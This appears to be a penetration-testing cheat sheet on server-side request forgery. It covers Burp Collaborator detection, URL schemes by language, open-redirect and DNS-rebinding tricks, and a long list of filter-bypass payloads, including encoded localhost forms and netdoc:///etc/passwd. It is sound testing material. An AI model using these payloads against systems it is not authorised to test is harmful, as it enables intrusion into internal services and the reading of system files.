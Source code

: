 What is SSRF?
Server Side Request Forgery (SSRF) is a web vulnerability that allows an attacker to exploit vulnerable functionality to access server side or local network services / functionality by affectively traversing the external firewall using vulnerable web functionality.

Another way to think of this would be to imagine the web applications vulnerable function is a web browser, that will allow you to pivot / relay request to the internal interface addresses, loopback or internal network to access services (effectively traversing the WAF or firewall).

An example of this could be a web function that allows the adding of a URL or third-party service, this could then be exploited to access internal or local IP address.

After identifying SSRF on applications running modern frameworks or a WAF, more work will be required in an effort to defeat the protection / filtering that is in place, and allow for successful SSRF exploitation.

Identifying Potential Locations for SSRF
Any functionality that allows external service interaction is a good stating point, any where that accepts a third party URL or service integration.

How to Find SSRF Vulnerabilities
In order to identify a SSRF vulnerability the first step is confirming that the functionality is vulnerable, an easy / scalable way to do this is using your own Burp Collaborator on Linode using this link to get a $100 voucher. Burp Collaborator will easily allow you to assess if out-of-band interaction is possible (the target server directly accessing a server you control).

PRO TIP: Run Your Own Collaborator Server
If you are taking part in bug bounty programs run your own Burp Collaborator server as often the default Burp Collaborator service domain is filtered, giving you an increased chance of detection.

Linode works great for this, it's cheap, fixed price and has a direct public IP address.

It should be noted that a function may still, potentially be vulnerable even if not identifid via Burp Collaborator, this is typically due to the target server not allowing outbound dns or strict egress firewall rules.

SSRF Whitelist Filter Bypass
Timing Difference
At the detection phase, try timing difference on responses to see if there is filtering in place when different domains, IP’s or ports are being fitlered.

URL Schema / Wrappers
The following URL schemas can be potentially exploited by SSRF vulnerabilies.

The URL schemas have been sorted by framework / language.

PHP SSRF Wrappers / URL Schema
The following wrappers are potentiall expected URL schema wrappers found within PHP environments (for some schema curl-wrappers would need to be enabled).

gopher://
fd://
expect://
ogg://
tftp://
dict://
ftp://
ssh2://
file://
http://
https://
imap://
pop3://
mailto://
smtp://
telnet://
ASP.NET SSRF Wrappers / URL Schema
The following wrappers are potentiall expected URL schema wrappers found within ASP.NET environments (gopher legacy only).

gopher://
ftp://
file://
http://
https://
Java SSRF Wrappers / URL Schema
The following wrappers are expected within Java environments, and can be used to potentially exploit LFI vulnerabilities.

 
ftp://
file://
http://
https://
gopher://
netdoc:///etc/passwd
netdoc:///etc/hosts
jar:proto-schema://blah!/
jar:http://localhost!/
jar:http://127.0.0.1!/
jar:http://0.0.0.0!/
jar:ftp://local-domain.com!/
NOTE: OpenJDK 8+ Redirects
It should be noted that OpenJDK 8+ does not follow redirects if the protocols do not match.

cURL SSRF Wrappers / URL Schema
The following wrappers are expected with environments using cURL.

file:///
dict://
sftp://
ldap://
tftp://
gopher://
ssh://
http://
https://
imap://
pop3://
smtp://
telnet://
Open Redirect SSRF Bypass
Open redirects can potentially be used to bypass server side whitelist filtering, by appearing to be from the target domain (which has an increased chance of being whitelisted).

Example:

/foo/bar?vuln-function=http://127.0.0.1:8888/secret
Basic locahost bypass attempts
Localhost bypass:

All IPv4: 0
All IPv6: ::
All IPv4: 0.0.0.0
Localhost IPv6: ::1
All IPv4: 0000
All IPv4: (Leading zeros): 00000000
IPv4 mapped IPv6 address: 0:0:0:0:0:FFFF:7F00:0001
8-Bit Octal conversion: 0177.00.00.01
32-Bit Octal conversion: 017700000001
32-Bit Hex conversion: 0x7f000001
various bypasses:

127.0.0.1:80
127.0.0.1:443
127.0.0.1:22
127.1:80
0
0.0.0.0:80
localhost:80
[::]:80/
[::]:25/ SMTP
[::]:3128/ Squid
[0000::1]:80/
[0:0:0:0:0:ffff:127.0.0.1]/thefile
①②⑦.⓪.⓪.⓪
127.127.127.127
127.0.1.3
127.0.0.0
2130706433/
017700000001
3232235521/
3232235777/
0x7f000001/
0xc0a80014/
{domain}@127.0.0.1
127.0.0.1#{domain}
{domain}.127.0.0.1
127.0.0.1/{domain}
127.0.0.1/?d={domain}
{domain}@127.0.0.1
127.0.0.1#{domain}
{domain}.127.0.0.1
127.0.0.1/{domain}
127.0.0.1/?d={domain}
{domain}@localhost
localhost#{domain}
{domain}.localhost
localhost/{domain}
localhost/?d={domain}
127.0.0.1%00{domain}
127.0.0.1?{domain}
127.0.0.1///{domain}
127.0.0.1%00{domain}
127.0.0.1?{domain}
127.0.0.1///{domain}st:+11211aaa
st:00011211aaaa
0/
127.1
127.0.1
1.1.1.1 &@2.2.2.2# @3.3.3.3/
127.1.1.1:80\@127.2.2.2:80/
127.1.1.1:80\@@127.2.2.2:80/
127.1.1.1:80:\@@127.2.2.2:80/
127.1.1.1:80#\@127.2.2.2:80/
hosts file bypass attempts
Enclosed Alphanumeric
http://⑯⑨。②⑤④。⑯⑨｡②⑤④/
http://⓪ⓧⓐ⑨｡⓪ⓧⓕⓔ｡⓪ⓧⓐ⑨｡⓪ⓧⓕⓔ:80/
DNS rebinding attempts
What is a DNS rebinding attack?
In certain situations a target function may check a hostname “blindly” against a whitelist/blacklist without verification of the the resolution IP address. Once the hostname has been determined OK by the above function it is then passed to the function which it is intended to protect.

How to exploit a vulnerable function
You can setup a DNS server that resolves to the whitelist, then have a short TTL which changes to the IP you want to exploit e.g. 127.0.0.1 for SSRF, or any other internal IP.

Fortunately taviso has built a service for this which you can use to generate a dword subdomain and use against your target. The downside to this service is that it appears to flip the resolution IP back and forth, so it may change during the attack.

You can use the follow web app to generate your rebinder domain: https://lock.cmpxchg8b.com/rebinder.html

To overcome this issue, have one of the resolution IP addresses in your control and verify the response of that IP request, to help determine if the target functionality is vulnerable.

go to https://lock.cmpxchg8b.com/rebinder.html add your IP’s
check it works with host
attempt to exploit the SSRF location with it
Post Exploitation / Enumeration
In an effort to demonstrate the severity of the SSRF vulnerability enumeration of server side ports could be performed using Burp Intruder.

The above process could be performed to enumerate other local IP addresses and/or bruteforcing URL (IDOR / Forced Browsing) to identify services or functionality that was not intended by the organisation.

Happy hunting / pen testing.
